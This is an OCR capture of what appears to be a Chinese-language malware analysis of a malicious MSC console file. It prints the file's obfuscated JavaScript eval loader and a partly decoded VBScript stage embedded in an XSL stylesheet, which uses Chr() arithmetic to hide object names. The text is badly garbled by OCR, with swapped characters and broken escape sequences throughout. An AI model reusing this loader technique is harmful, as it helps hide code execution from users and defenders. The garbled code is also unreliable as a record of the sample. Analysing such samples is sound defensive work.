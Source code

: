 91 <StringID="10"Refs="2">//ConsoleRoot   
92 var u=external.Document.Name;var v="";var i=0;eval(decodeURIComponent("for\$20\$28is3D0&3Bi\$3Cu2Elengthe3 29%20%29%20%0AI7nAA%3Dhmnsr1tEA&280%29.text&0Aga5o1Y3fL8hM%3DVqIgc0623f86%28I7nAA%29%0ADim号20ED4rz40ASet%20ED4rz%3D 号20To%20uBound号28tiq2号29%20step号204%0Ae8xdh号3Dv5KomBegKS+28arrayByte3%28tiqz+28iter号29%29%29%2BarrayLong5%28arrayBy   
93 </string>  

### 其执行的内容经解码后如下，主要功能为加载XML中嵌入的VBScript执行  

Var U=external.Document.Name;var v=;var   
18;eva1（decodeURIComponent(for%20%281%3D0%3B1%3Cu%21ength%3B1%2B%2B%29%7Bh%3Du%2EcharCodeAt%281%29%2EtoString%2816%29%3Bv%2B%3D%28%22000%22%2Bh%29%2Es11c e%28%2D4%29%3B%7D"));var sN-external.Document.ScopeNamespace;var rN=sN.GetRoot();var mN=sN.GetChi1d(rN);var   
dN=sN.GetNext(mN);external.Document.ActiveView.ActiveScopeNode=dN;dO=external.Document.ActiveView.Controlobject;external.Document.ActiveView.ActiveScopeNode mN;var XML=do;XML.async=false;var   
xs1-XML;xs1.1oadXML（unescape(%3C%3Fxm1%20version%3D%271.0%27%3F%3E%eA%3Csty1esheet%0A%20%20%20%20xmlns%3D%22http%3A//wm.w3.org/1999/XSL/Transform%22%20xml ns%3Ams%30%22urn%3Aschemas-microsoft  
com%3Axs1t%22%A%20%20%20%20xm1ns%3Auser%3D221aceho1der%22%A%20%2%20%2vers1on%3D%221.%22%3E%A%20%2%2%2%3Coutput%2method%3D%22text%2/%3E%A%2%2 %20%208%3Cms%3Ascript%20implements  
pref1x%30%22user%22%201anguage%3D%22VBScr1pt%22%3E%A%e9%3C%21%SBCDATA%58%eADim%20msCLL%eAmsCLL%3D%22_MSC%22%BAFor%281%3D1%20to%20Len%28msCLL%29%20Step%204% 0Apyem%3Dpyem%20%26%20ChrW%28CLng%28Chr%28Int%28%2238%22%29%29%26Chr%28Int%28%2272%22%29%29%20%26%20Mid%28mscLL%2Ci%2C4%29%29%29%0ANext%eASet%20kNNBBk%3DCr eateObject%28Chr%28Int%28%22%26H4d%22%29%29%26Chr%28%26H69%29%26Chr%28Int%28%2299%22%29%29%26Chr%28%26H72%29%26Chr%28210456/1896%29%26Chr%28Int%28%22%26H73% 22%29%29%26Chr%28%26H6f%29%26Chr%281S0842/1471%29%26Chr%28Int%28%22116%22%29%29%26Chr%28Int%28%22%26H2e%22%29%29%26%22X%22%26Chr%28Int%28%2277%22%29%29%26Ch r%28%26H4c%29%26Chr%28Int%28%2268%22%29%29%26Chr%2879%29%26Chr%28%26H4d%29%20%29%AkNNwBBk.Async%3DChr%28Int%28%227e%22%29%29%26Chr%28Int%28%2297%22%29%29%2 6%221%22%26Chr%28Int%28%22115%22%29%29%26Chr%28%26H65%29%eAkNNWBBk.Load%28%20pyem%20%29%eAV7dvqr1MfEI%AFunct1on%20VqIqc06Z3f86%281np%29%ADim%20YhYRVjYqejI C%8ADim%20A1fZe%0ASet%20YhYRVjYqejIC%3DCreate0bject%28Chr%28Int%28%2277%22%29%29%26%22S%22%26%22X%22%26Chr%2898945/1285%29%26Chr%28%26H4c%29%26%222%22%26Chr %2846%29%26Chr%28Int%28%22%26H44%22%29%29%26Chr%28757-  

678%29%26Chr%286853/89%29%26Chr%28Int%28%2268%22%29%29%26Chr%28Int%28%22%26H6f%22%29%29%26Chr%28Int%28%2299%22%29%29%26Chr%28%26H75%29%26Chr%28Int%28%22109%   
22%29%29%26%22%22%26Chr%28%26H6e%29%26Chr%28%26H74%29%29%ASet%20A1fZe%30YhYRVjYqejIC.createlement%28%22a%22%29%A1fZe.DataType%30%22b%22%26%221%22%26%22  

172731  

TrRaw Bytes  

### Output  

var u=external.Document.Name;var v=";vari=;eval(decodeuRIComponent(for(1=0;i<u.length;i++){h=u.charCodeAt（i）.toString（16);v+=   
("eoe+h).s1ice(-4）;)"));var sN=external.Document.ScopeNamespace;var rN=sN.GetRoot();var mN=sN,GetChi1d(r);var   
dN=sN.GetNext（mN);external.Document.ActiveView.ActiveScopeNode=dN;dO=external.Document.ActiveView.Controlobject;external.Document.ActiveView.ActiveScopeNode   
=mN;var XML=dO;XML.async=false;var xs1=XML;xs1.1oadXML(unescape("<?xml version=\*1.e\*?>   
<stylesheet xmlns="http://ww.w3.org/1999/xXSL/Transform"xmlns:ms=urn:schemas-microsoft-com:xs1t" xmlns:user="placeholden" version="1.0"> <outputmethod="text"/> <ms:script implements-prefix=user"language="VBScript"> <![CDATA[   
DimmscLL   
mscLL="_MSC"   
Fori=1to Len(mscLL)Step4   
pyem-pyem&Chrw（CLng(Chr(Int(“38"））&chr（Int("72")）&Mid(mscLL,1,4））)   
Next   
Set   
kNMwBBk=CreateObject（Chr(Int("&H4d")）&Chr（&H69）&Chr（Int（99"))&Chr（&H72）&Chr(21e456/1896)&Chr（Int("&H73"))&Chr(&H6f)8Chr（150042/1471)&Chr(Int（"116")）&Chr(In   
t("&H2e")&"x"&Chr(Int（"77")）&Chr（&Hac)&Chr(Int("68")&Chr(79)&chr（8H4d))   
kNNwBBk.Asvnc=Chr（Int("7e"))&Chr(Int("97"))&"1"&Chr(Int("115"))&Chr（&H65)  
